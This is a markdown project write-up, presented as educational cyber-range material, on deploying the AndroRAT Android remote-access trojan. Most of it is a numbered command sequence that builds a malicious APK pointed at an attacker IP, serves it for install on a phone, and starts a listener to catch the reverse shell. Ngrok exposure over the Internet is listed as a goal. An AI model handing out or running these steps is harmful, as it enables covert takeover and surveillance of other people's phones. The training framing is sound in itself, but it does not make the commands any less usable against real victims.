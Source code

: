 ```yaml
---
title: "📱 Android Remote Administration Tool (AndroRAT) Deployment"
date: 2025-06-18
categories: [Cybersecurity, Android, Ethical Hacking]
tags: [AndroRAT, Python, ReverseShell, RedTeam, CyberLab]
---
```


## 🧪 Project Overview

This project demonstrates the controlled deployment and configuration of **AndroRAT** (Android Remote Administration Tool) for **educational and research purposes** within a secured cyber range. It was designed for teaching cybersecurity students the fundamentals of Android payload delivery, command & control, and post-exploitation techniques in a **legal and ethical** environment.

---

## 🎯 Key Goals

- Understand Android reverse shell mechanics
- Configure and deploy AndroRAT in **same-network** and **Internet-facing** modes
- Operate AndroRAT's shell listener and payload builder
- Simulate attacker behavior and train detection responses

---

## ⚙️ Technologies Used

- **Python 3.12+**
- **Virtual Environment (`venv`)**
- **Linux (Kali & Ubuntu 24.04)**
- **Ngrok (for WAN connections)**
- **Android (Real Device or Emulator)**
- **VS Code, Git, Termux (optional)**

---

## 📌 Setup & Execution

### 📡 Same-Network Deployment

```bash
# 1. Clone the AndroRAT repo
git clone https://github.com/karma9874/AndroRAT.git
cd AndroRAT

# 2. Create a virtual environment
python3 -m venv venv

# 3. Activate the environment
source venv/bin/activate

# 4. Install required packages
pip install -r requirements.txt

# 5. Build the APK
python3 androRat.py --build -i <Attacker_IP> -p 8000 -o rat.apk

# 6. Host the APK using a simple HTTP server
python3 -m http.server 8080

# 7. On the Android device, download and install rat.apk

# 8. Start the AndroRAT listener
python3 androRat.py --shell -i <Attacker_IP> -p 8000

# 9. Wait for reverse shell connection ✅
